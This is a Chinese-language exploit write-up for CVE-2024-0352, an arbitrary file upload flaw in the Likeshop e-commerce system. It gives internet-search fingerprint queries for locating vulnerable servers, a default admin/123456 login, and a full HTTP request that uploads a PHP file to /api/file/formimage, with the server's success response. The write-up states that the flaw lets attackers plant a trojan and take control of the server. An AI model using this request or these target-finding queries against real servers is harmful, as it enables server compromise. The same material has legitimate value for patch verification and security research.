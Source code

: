 # CVE-2024-0352

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Likeshop任意文件上传



## 漏洞描述

Likeshop是一个100%开源免费的B2B2C多商户商城系统，支持官方旗舰店，商家入驻，平台抽佣+商家独立结算，统一下单+订单拆分等功能。该产品存在任意文件上传，攻击者可通过此漏洞上传木马获取服务器权限。

## 影响版本

```python
version<= 2.5.7.20210311
```

## 网络空间测绘语法

### FOFA

```bash
icon_hash="874152924”
```

### 鹰图

```bash
web.icon=="b2e68d0acf5b3117f88421799920ab98”
```

### 夸克

```bash
favicon: "b2e68d0acf5b3117f88421799920ab98”
```

## 漏洞复现

### 弱口令

**账号：**admin **密码：**123456

![Untitled](CVE-2024-0352%202de0eecc58a34d0b8c4a12c96a821f58/Untitled.png)

![Untitled](CVE-2024-0352%202de0eecc58a34d0b8c4a12c96a821f58/Untitled%201.png)

### Exp

**Request 包**

```python
POST /api/file/formimage HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 206

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="file";filename="phpinfo.php"
Content-Type: application/x-php

<?php phpinfo();?>
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

**response 包**

```python
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 18 Jan 2024 01:26:18 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Authorization, Sec-Fetch-Mode, DNT, X-Mx-ReqToken, Keep-Alive, User-Agent, If-Match, If-None-Match, If-Unmodified-Since, X-Requested-With, If-Modified-Since, Cache-Control, Content-Type, Accept-Language, Origin, Accept-Encoding,Access-Token,token
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, post
Access-Control-Max-Age: 1728000
Access-Control-Allow-Credentials: true
Content-Length: 233

{"code":1,"msg":"上传文件成功","data":{"url":"http:\/\/xxxxxxxxxxx\/uploads\/user\/xxxxxxxxxxxx.php","base_url":"uploads\/user\/xxxxxxxxxxxx.php","name":"phpinfo.php"},"show":0,"time":"0.086435"}

```

![Untitled](CVE-2024-0352%202de0eecc58a34d0b8c4a12c96a821f58/Untitled%202.png)